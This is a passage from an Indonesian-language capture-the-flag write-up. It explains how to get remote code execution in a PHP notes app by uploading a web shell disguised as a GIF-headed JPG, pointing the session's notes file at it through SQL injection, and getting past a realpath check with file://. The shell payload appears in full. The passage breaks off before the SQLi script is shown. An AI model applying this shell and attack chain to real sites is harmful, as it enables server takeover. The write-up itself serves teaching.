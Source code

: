 ```php 
    if (!move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], "up/" . $_SESSION['uuid'] . ".jpg")) {

      echo "Sorry, there was an error uploading your file.";
    }
  }
}
```

Meskipun begitu kita bisa memanfaatkan `<p id="notes"><?php include_once($_SESSION['notes_file']);?></p>` yang terdapat di `notes.php`, dengan ini kita bisa meng-include file jpg sekalipun utuk mendapatkan RCE.

Sekarang kita akan upload file shell kita, beri nama dengan ekstensi jpg dan header GIf untuk membypass WAF.

Ex: shell.jpg
```php
GIF89a
<?=system($_GET['a'])?>
```

Jangan lupa juga untuk menyimpan url yang tadi.

Ex: http://localhost/big/up/ef2baba2-a5d5-4669-b22d-cdcf2fd13c8a.jpg

Nah, sekarang kita perlu mencari cara untuk membuat `$_SESSION['notes_file']` mempoint ke file shell.jpg kita.

Sejarang kita akan mengeksploit SQLI pada `req.php` yang terdapat di source code seperti berikut.

```php 
...snip...
        if($reg=$conn->query("insert into users(uuid,name,email,password,notes_file)values('$uuid','$name','$email','$pass','$notes_file')") && file_put_contents($notes_file,base64_encode('first_note')))
        {                                                                                         
            die("<script>alert('Success');history.back()</script>"); 
        }
...snip...
```

Kita bisa mengendalikan parameter `$name`, `$email`, dan juga `$pass` dan `$notes_file`, kita bisa mengubah nilai `$notes_file` menjadi path `shell.jpg` yang kita upload tadi.

Disini kita juga perlu membypass `realpaht` di `notes.php` dengan menggunakan `file://` protocol

ex: file:///var/www/html/big/up/ef2baba2-a5d5-4669-b22d-cdcf2fd13c8a.jpg

```php
if(preg_match('/up/',realpath($_SESSION['notes_file'])) || preg_match('/php:\/\/|sess/',$_SESSION['notes_file']))
```

Setelah itu kita tinggal membuat akun baru dengan SQLI dan menyertakan path dari shell.jpg kita tadi di `notes_file`.

Beriktu script yang saya gunakan untuk membuat akun yang berisi SQLI
